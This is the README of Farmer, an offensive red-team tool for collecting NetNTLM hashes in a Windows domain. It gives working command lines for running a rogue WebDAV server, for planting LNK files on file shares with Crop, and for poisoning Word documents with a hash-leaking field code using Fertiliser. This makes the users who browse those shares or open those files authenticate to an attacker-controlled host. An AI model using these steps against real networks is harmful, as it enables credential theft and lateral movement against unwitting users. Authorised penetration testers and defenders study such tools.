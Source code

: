 # Farmer

Author: @domchell

## Overview

*I wanted to be a farmer, so I started harvesting hashes*

Farmer is a project for collecting NetNTLM hashes in a Windows domain. Farmer achieves this by creating a local WebDAV server that causes the WebDAV Mini Redirector to authenticate from any connecting clients.

In order for Farmer to be successful, the clients MUST be able to connect to the local WebDAV server. Possible things that could prohibit this include network segmentation and/or the Windows firewall. Be sure to check these out first (*hint* Seatbelt WindowsFirewall).

## Spreading the crop

Farmer includes a submodule for the Crop tool, this tool can be used to create LNK files that initiate a WebDAV connection when browsing to a folder where the LNK is stored as it will try and render the stored icon.

The concept of the attack is, you should use Crop to poison the desired file shares with the LNK file pointing to the Farmer WebDAV server.

For example:

```
crop.exe \\fileserver\Common crop.lnk \\workstation@8888\harvest \\workstation@8888\harvest
```

When any user browses to \\fileserver\Common, explorer will attempt to recover the icon from the Farmer WebDAV server and in doing so submit the user's NetNTLM hash.

## Fertilising the crop

Farmer includes another submodule for the Fertiliser tool, this tool can be used to poison Office documents (currently just docx) with a malicious field code. This causes the field code to be parsed when the document is opened and will leak the hash to the WebDAV server of your choice :)

For example:
```
Fertiliser.exe \\fileserver\important.docx http://workstation:8888/foo "Update required"
```

## Farming

Farmer will listen on a user defined port, for a number of seconds and write the output to the filesystem if required:

Usage:
```
farmer.exe <port> [seconds] [output]
```

If no seconds are specified, or its set to 0, farmer will run indefinitely, for example:

```
farmer.exe 8888 0 c:\windows\temp\test.tmp
```

To run farmer for one minute on port 8888, do the following:

```
farmer.exe 8888 60
```

If you're wanting to write the Farmer log to the filesystem, you can AES encrypt the log file using the key set in Config.key and setting the encrypt bool to true (default false).

The log file can be decrypted with the HarvestCrop tool, for example:
```
harvestcrop.exe c:\windows\temp\test.tmp farmer
```

